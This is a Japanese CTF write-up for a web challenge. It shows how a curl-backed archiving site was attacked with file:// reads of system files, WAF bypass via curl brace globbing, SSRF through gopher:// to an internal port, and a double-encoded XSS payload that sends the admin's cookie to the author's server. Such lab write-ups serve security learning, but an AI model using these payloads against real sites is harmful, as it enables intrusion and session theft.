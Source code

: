 # CTF for Beginners NEXT 2017
## はじめに
このwriteupはCTF for Begginers nextでのweb問題のものです。

## 解き方
### 1. サイトの概要を調べる
* 所謂魚拓サイト。
* サイトのURLを送信するとサイト一覧に追加され、そのサイト一覧をクリックすると、サーバ側そこにアクセスしてレスポンスを表示する。

### 2. どこに脆弱性があるかの目安をつける
#### ページ書かれていることを読むと…
> Posted gyotakus are checked by admin
  * **XSSの問題 ?**
#### 適当に`hoge`と送信して、そのページに移動すると…
> curl: (6) Could not resolve host: hoge
  * **内部でcurlが使われている…だと！？**
    * curlをうまく使って、攻撃？
#### `<script>`とかを送信すると…
> Forbidden
  * **WAFが使われている？？**
    * パターンをうまく外してあげれば？？

### 3. curlを悪用して、ファイルを読み取る
#### curlのおぞましい機能
##### 多量のプロトコルに対応
  * fileが使える…？
    * file://etc/passwd
    * file://etc/apache2/apaches.conf

##### `{}`を使った機能
  * http://{A,B}.com
    => http://A.com http://B.com
  * http://{A}.com
    => http://A.com
    * WAFのパターンから外せる…？

##### 実際に送信してみると…
```file:///etc/{apache2}/apache2.conf```

```
ProxyPass / http://127.0.0.1:9999/
ProxyPassReverse / http://127.0.0.1:9999/
```

`127.0.0.1:8000`に直接投げ込めばOK ?

### 4. curlでオプションを使わずにPOSTを投げる
* **gopher**を使ってtcpでhttp postを書いてけばいける？
* [いい感じに%コーディングしてくれるスクリプト](https://gist.github.com/nicklegr/b55035f9c7aaef4788c3fe3b308cadb4) が便利！
  * nicklegr様ありがとうございます。

#### とりあえずHTTP GETを投げてみる
送信してみてWAFに引っかかった部分は、`{}`で囲みました。
##### コード
```
def encode(str)
  str
    .gsub(" ", "%20")
    .gsub("\n", "%0d%0a")
end

cmd = "curl gopher://localhost:9999/_" + encode(<<-EOD)
GET / HTTP/1.{1}
{Host}: localhost:9999
EOD

puts cmd
```
##### 送信した文字列
```
gopher://localhost:9999/_GET%20/%20HTTP/1.{1}%0d%0a{Host}:%20glocalhost:9999%0d%0a
```

#### 次はPOSTでサイトを追加する
##### コード
```
def encode(str)
  str
    .gsub(" ", "%20")
    .gsub("\n", "%0d%0a")
end

cmd = "curl gopher://localhost:9999/_" + encode(<<-EOD)
GET /new HTTP/1.{1}
{Host}: localhost:9999
{Content-Length}: 5
{Content-Type}: application/x-www-form-urlencoded
{Cookie}: session=自分のセッション

url=http://example.com
EOD

puts cmd
```

##### 送信した文字列
```
gopher://localhost:9999/_POST%20/new%20HTTP/1.{1}%0d%0a{Host}:%20localhost:9999%0d%0a{Content-Length}:%2022%0d%0a{Content-Type}:%20application/x-www-form-urlencoded%0d%0a{Cookie}:%20session=自分のセッション%0d%0a%0d%0aurl=http://example.com
```

### 5. XSSを投げるぞい
自分のサーバをたてて、そのサーバに対して管理者のクッキーを投げるように仕向ける。

#### その前に問題点
##### <script>に気づかれてしまった
もう一度コーディングする  
`<script>` => `%3C script %3E` => `%253C script %253E`

##### document.cookieもだめ
`document.cookie` => `document%252ecookie`

#### コード
```
def encode(str)
  str
    .gsub(" ", "%20")
    .gsub("\n", "%0d%0a")
end

cmd = "curl gopher://localhost:9999/_" + encode(<<-EOD)
POST /new HTTP/1.{1}
{Host}: localhost:9999
{Content-Length}: リクエストボディの文字数
{Content-Type}: application/x-www-form-urlencoded
{Cookie}: session=自分のクッキー

url=%253cscript>location.href="自分のサイトのURL/%3fa="%252bdocument%252ecookie%253c/script>
EOD

puts cmd
```
#### 送信した文字列
```
gopher://localhost:9999/_POST%20/new%20HTTP/1.{1}%0d%0a{Host}:%20localhost:9999%0d%0a{Content-Length}:%2094%0d%0a{Content-Type}:%20application/x-www-form-urlencoded%0d%0a{Cookie}:%20session=自分のクッキー%0d%0a%0d%0aurl=%253cscript>location.href="自分のサイトのURL/%3fa="%252bdocument%252ecookie%253c/script>
```

#### 結果
管理者のセッションがゲットできた！！
> session=293e53ca013fb6ece2ef7d773905495e503bf3ba38781363a504b21f0a3248e3

### 7. 管理者としてアクセス
Develover Tools -> Application -> Cookies のセッションを管理者のセッションにして再読込み！
そうするとフラグが見える！

> FLAG{cURL__is__GOD}
